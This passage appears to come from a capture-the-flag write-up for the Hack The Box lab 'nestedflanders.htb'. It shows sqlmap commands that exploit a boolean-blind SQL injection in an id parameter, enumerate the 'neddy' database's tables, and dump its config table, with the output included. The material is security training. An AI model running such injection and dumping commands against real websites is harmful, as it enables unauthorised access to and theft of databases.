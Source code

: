 The boolean-blind injection is faster to dump the database and is less susceptible to instability if other people are hammering the box. First I check the current database used, then dump the list of tables from database `neddy`:

```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --current-db
[...]
[00:54:27] [INFO] retrieved: neddy
current database:    'neddy'
```

```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --tables -D neddy
[...]
Database: neddy
[11 tables]
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```

I'll focus on `config`, `idname` and `filepath` tables first. The other tables contain a lot of rows and it would take too long to dump everything. I increase the thread count to make it a bit faster.

```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -T config,filepath,idname --technique B -D neddy --dump --threads 10
[...]
Table: config
+-----+-------------------------+--------------------------------------------------------------------------+
| id  | option_name             | option_value                                                             |
+-----+-------------------------+--------------------------------------------------------------------------+
| 54  | offline                 | 0                                                                        |
| 55  | offline_message         | Site offline, please come back later                                     |
| 56  | display_offline_message | 0                                                                        |
| 57  | offline_image           | <blank>                                                                  |
| 58  | sitename                | NestedFlanders                                                           |
| 59  | editor                  | tinymce                                                                  |
| 60  | captcha                 | 0                                                                        |
| 61  | list_limit              | 20                                                                       |
| 62  | access                  | 1                                                                        |
| 63  | debug                   | 0                                                                        |
```